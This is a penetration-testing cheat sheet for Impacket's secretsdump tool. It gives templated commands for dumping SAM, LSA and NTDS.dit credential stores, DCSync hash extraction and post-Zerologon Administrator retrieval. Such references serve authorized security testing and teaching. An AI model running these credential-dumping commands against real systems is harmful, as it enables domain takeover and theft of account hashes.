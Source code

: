 # secretsdump (imp)

% impacket-secrets, windows, smb, 445

## auth - account
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain_FQDN>/<user>:<password>'@<target_name>
```

## auth - hash
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -hashes <lm_hash>:<nt_hash> '<domain_FQDN>/<user>@<target_name>'
```

## auth - kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
KRB5CCNAME=<ccache> secretsdump.py -k -no-pass -dc-ip <dc_ip> -no-pass -k <target_name>
```

## SAM - online
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## SAM - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|system.save> -sam <SAM_FILE|sam.save> LOCAL
```

## LSA - online
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## LSA - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -system <SYSTEM_FILE|system.save> -security <SECURITY_FILE|security.save>' LOCAL
```

## NTDS - online (NTLM + keys)
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -user-status -outputfile <ntlm-extract-file> '<domain_fqdn>/<user>:<password>'@<dc_fqdn>
```

## NTDS - online (only NTLM)
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -user-status -outputfile <ntlm-extract-file> '<domain_fqdn>/<user>:<password>'@<dc_fqdn>
```

## NTDS - online account (only NTLM)
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-user <domain_fqdn>/<name|krbtgt> '<domain_fqdn>/<user>:<password>'@<dc_fqdn>
```


## NTDS - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <NTDS_FILE|ntds_file.dit> -system <SYSTEM_FILE|system.save> LOCAL -outputfile <ntlm-extract-file>
```


## anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain_fqdn>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## DCSYNC - online (ptt)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -k -no-pass -just-dc -outputfile <file-prefix>  -dc-ip <dc_ip> '<domain_fqdn>/<user>'@<dc_fqdn>
```